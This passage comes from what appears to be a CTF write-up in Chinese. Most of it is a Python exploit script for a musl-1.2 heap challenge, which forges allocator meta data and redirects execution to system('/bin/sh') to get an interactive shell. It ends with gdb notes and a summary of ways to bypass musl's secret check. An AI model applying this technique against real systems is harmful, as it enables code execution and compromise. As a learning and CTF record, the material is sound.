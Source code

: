 ```Python
exp = [addr&0xFFFFFFFF, (addr>>32)]
exp+= [0, 0]
addr = libc.symbols['system']			#f[31]
exp+= [addr&0xFFFFFFFF, (addr>>32)]
exp+= [0x15]*4
Create(exp)				#15

Create([0x16]*10)		#16
Create([0x17]*10)		#17

Create([0x18]*10)		#18
Create([0x19]*10)		#19

for i in range(5, 10):
	Delete(i)
addr = libc.search('/bin/sh\x00').next()	#a[31]
Create([0x5]*8+[addr&0xFFFFFFFF, (addr>>32)])		#5
Create([0x6]*10)		#6
Create([0x7]*10)		#7
Create([0x8]*10)		#8
Create([0x9]*10)		#9

#forge group
addr = 0x00000deadbeef010
exp = [addr&0xFFFFFFFF, (addr>>32)]

#forge idx, offset
idx = 0x0
offset = 0x2
exp+= [0]*(10-2)
exp+= [(offset<<16)+(idx<<8)]
Modify(13, exp)

#trigger dequeue
Delete(14)

#GDB()

#atexit
Bye()


Exit()

sh.interactive()

'''
NumBufArr			telescope (0x0000555555554000+0x204360) 20
Create():calloc()	break *(0x0000555555554000+0x191b)
RecordPtr			telescope 0x0000555555554000+0x204348
'''

```
## 总结
- musl-1.2的利用只能通过伪造meta, 因此就要绕过meta的检查
    - 要么直接覆盖__malloc_context中的secret
    - 要么泄露secret
    - 要么在可控的页头处写入secret, 然后在此页上伪造meta
    - 总之, secret是关键, secret在哪一页, 就在哪一页伪造meta



